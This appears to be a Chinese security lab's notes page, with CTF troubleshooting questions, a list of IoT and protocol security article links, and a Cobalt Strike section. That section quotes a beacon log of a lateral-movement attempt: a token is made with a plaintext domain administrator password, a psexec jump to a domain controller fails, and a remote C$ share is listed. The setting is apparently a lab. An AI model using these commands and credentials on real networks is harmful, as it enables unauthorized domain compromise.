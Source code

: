 ## Q & A 提问
* Windows 本地怎样启环境 运行angr，像linux启动pwn题目那样。。想迷宫爆破。
* png_4题目怎么做
* re 集团公司 迷宫题 正常怎么调
* 你文件没了快打钱.zip -- smc题目 ，
	1.多次运行后sp 错误。
	2.怎样解码后 patch出来。并且能运行。
* fmtarg ($ecx) 怎么写用ecx
* harde_pwn libc.so.6 error

### cobalt strike
* 都有权限浏览域控，为啥不能上线？

```sh
beacon> make_token tide1\administrator 1qaz@WSX
[*] Tasked beacon to create a token for tide1\administrator
beacon> jump psexec DC smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_ce) on DC via Service Control Manager (\\DC\ADMIN$\cc76326.exe)
[+] host called home, sent: 287632 bytes
[+] Impersonated T1-COMPUTER\test
[-] could not upload file: 53
[-] Could not open service control manager on DC: 1722
[-] Could not connect to pipe: 53
beacon> ls \\192.168.61.129\C$
[*] Tasked beacon to list files in \\192.168.61.129\C$
[+] host called home, sent: 37 bytes
[*] Listing: \\192.168.61.129\C$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     06/19/2023 06:28:52   $Recycle.Bin
          dir     06/19/2023 22:13:56   001.env.python-3.5.1-embed-amd64
```
## 综合利用
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## TODO
exec 更改标准输入到 test
exec 1>test
whoami
cat test

# Articles

## QQ群
829089482 赛事群

## Protocol/IoT

[MQTT安全分析](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492664&idx=1&sn=e18c8c1e7209f6bacddb85397eab85c9)
[协议分析 | Bluetooth 蓝牙协议栈技术初探](https://mp.weixin.qq.com/s/1pG6jnvt3aqPrz5Vl6FIqg)
[协议分析 | 简析ARP欺骗](https://mp.weixin.qq.com/s/WyFPxxjSLF-diSUA-cTRZA)
[TLS 1.2 协议解析流程学习（一）](https://mp.weixin.qq.com/s/DS3ZMVSlHvIV0wIDrrmHpg)
[HLS 无损下载B站直播 | HLS协议从入门到实践](https://www.bilibili.com/video/BV1yL411k7DK/)

[IOT设备常见配置文件加解密分析](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496354&idx=1&sn=79f02dbebafeb18dfc3e962c489a560f)
[Openwrt进程间通信-Ubus](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247494791&idx=1&sn=58ce08c883a7056af29163db8fac83c4)
[家用智能灯泡的控制功能安全测试](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247497263&idx=1&sn=7cd7b78de1b751434da43238495511c4)
[CVE-2020-3331思科RV110W路由器命令执行](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492240&idx=1&sn=8bf9052411b68a17438006e846123cad)
[EMUX仿真RV130的栈溢出整型利用](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247495867&idx=1&sn=4fd1f76459a06039734f667417b5090f)
[基于树莓派实现IOT流量抓取](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492289&idx=1&sn=900759780e235368e5ec1ff54f6ac800)
[固件符号表恢复](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247491846&idx=1&sn=b04846dbd9d5a72601f2469674f3c7d9)


## 网络安全
[科普大作：等保、分保、关保、密评（附下载）](https://mp.weixin.qq.com/s/B6itiRBUkm8dSgX9VGBQgw)
[实验室2023届 本科优秀毕业设计展示一——操作系统实践、代码保护](https://mp.weixin.qq.com/s/C_Ias9xu02c1MpQo0CSzRQ)
[实验室2023届 本科优秀毕业设计展示二——网络安全](https://mp.weixin.qq.com/s/IIMm-h6Fxota7XfN_07OJg)
[实验室2023届 本科优秀毕业设计展示三——安全工具](https://mp.weixin.qq.com/s/UM-gCy9MIw9PQMN7X3ofyg)
[实验室2023届 本科优秀毕业设计展示四——应用安全](https://mp.weixin.qq.com/s/-qTDBayECI8i11n-W1GEBg)
